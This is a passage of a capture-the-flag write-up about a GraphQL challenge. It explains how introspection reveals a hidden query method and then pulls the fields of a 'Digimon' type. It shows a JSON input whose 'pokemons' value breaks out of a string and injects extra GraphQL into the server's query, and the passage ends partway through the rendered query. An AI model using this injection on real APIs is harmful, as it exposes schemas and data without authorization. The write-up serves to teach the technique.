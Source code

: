 ![](49_step_4.png)

We found four querying methods: `hello`, `bye`, `pokemon`, `digimOwOUwURawrn38408375018458385023841203489738570123`.

If we try to query `hello` and `bye`, there aren't any flags. [^1]

The `pokemon` query is what we use to query pokemon data, so we can ignore that.

If we query `digimOwOUwURawrn38408375018458385023841203489738570123` like how we do in `hello`, `bye`, or even `pokemon`, we get errors because these methods require one or more arguments.

## Step 5: Inspect the Fields of Digimon
Since the only possibility of getting `Flagmon` is through `digimOwOUwURawrn38408375018458385023841203489738570123`, we now only pay attention to this query method.

To use this query method, we should know what this query method outputs.

From the previous introspection, we can see that it gives us an `OBJECT` with name `Digimon0x000141a0`.

Let's see what `Digimon0x000141a0` has.

```json
{
    "pokemons":["\") {id} __type(name:\"Digimon0x000141a0\") { name fields { name type { name kind ofType { name kind } } } } _0:pokemon(name:\""],
    "compares":["id"]
}
```
```graphql
{
    _1:pokemon(name:"") {
        id
    } 
    __type(name:"Digimon0x000141a0") {
        name
        fields {
            name
            type {
                name
                kind
                ofType {
                    name
```

[^1]: In fact these are test queries I intended to left behind. Maybe act as an easter egg.
[^2]: The reason I didn't put the flag in the field `flag` is because I don't want people to be guessy and guess the fields of `Digimon` without introspection. However, if you can get the query method names and other stuff, getting all fields from `Digimon` isn't a issue here.
